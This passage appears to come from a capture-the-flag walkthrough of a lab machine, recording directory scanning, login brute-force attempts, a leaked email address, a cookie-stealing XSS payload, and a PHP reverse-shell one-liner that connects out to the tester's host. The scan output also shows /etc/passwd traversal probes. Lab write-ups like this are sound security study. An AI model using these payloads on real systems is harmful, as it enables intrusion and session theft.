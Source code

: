 ```

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 178.47 seconds
```

- `dirsearch` shows a `register.php` directory
```
┌──(root㉿kali)-[~/Downloads]
└─# dirsearch -u 10.10.10.97
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                            
 (_||| _) (/_(_|| (_| )                                                                                                                                     
                                                                                                                                                            
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /root/Downloads/reports/_10.10.10.97/_24-10-02_10-53-36.txt

Target: http://10.10.10.97/

[10:53:42] Starting:                                                                                                                                        
[10:53:43] 403 -  312B  - /%2e%2e//google.com                               
[10:53:44] 403 -  312B  - /.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd             
[10:53:51] 403 -  312B  - /\..\..\..\..\..\..\..\..\..\etc\passwd           
[10:54:03] 500 -    1KB - /auth.php                                         
[10:54:06] 403 -  312B  - /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd     
[10:54:11] 500 -    1KB - /db.php                                           
[10:54:22] 200 -    1KB - /login.php                                        
[10:54:33] 200 -    2KB - /register.php                                     
                                                                             
Task Completed      
```

- Registered account `user:password` and logged in
- Used Burpsuite to capture `GET` and `POST` http requests
- On the Home page and Contact Us page the email `tyler@secnotes.htb` is leaked
- Trying Intruder tab with Sniper in Burpsuite to bruteforce tyler's password. No luck
- Capturing more http requests
	- Change password page is `/change_pass.php`

- Vulnerable to XSS, successful alert:
	- `#"><img src=/ onerror=alert(document.cookie)>`
	- Added a new note with account `user:password` I created and got an alert popup showing cookie `PHPSESSID=mlqks3m0mp9onel04id20me9m8`
	- Attempt reverse shell with php
```php revshell.php
<?php exec("/bin/bash -c 'bash -i >/dev/tcp/10.10.14.4/4444 0>&1'"); ?>
```
